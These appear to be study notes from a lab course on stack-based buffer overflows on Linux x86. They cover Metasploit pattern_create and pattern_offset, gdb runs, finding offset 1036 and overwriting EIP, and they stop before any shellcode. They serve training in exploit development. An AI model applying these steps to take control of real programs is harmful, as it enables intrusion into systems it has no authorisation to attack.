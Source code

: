 [[Stack-Based Buffer Overflows on Linux x86]]
#### Create Pattern
```shell-session

/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 1200 > pattern.txt

```

run on gdb:

```shell-session
 run $(python -c "print 'Aa0Aa1Aa2Aa3Aa4Aa5...<SNIP>...Bn6Bn7Bn8Bn9'") 
```

output:
```shell-session
Program received signal SIGSEGV, Segmentation fault.
0x69423569 in ??
```

sayfriendandcomein
SAYFRIENDANDCOMEIN
#### GDB - Offset
```shell-session
Avataris1210@htb[/htb]$ /usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -q 0x69423569

[*] Exact match at offset 1036
```

```shell-session
run $(python -c "print '\x55' * 18 + '\x66' * 4")
```
output:

```shell-session
Program received signal SIGSEGV, Segmentation fault.
0x66666666 in ?? ()
```

Nota: Next, we have to **find out how much space we have for our shellcode**, which then executes the commands we intend
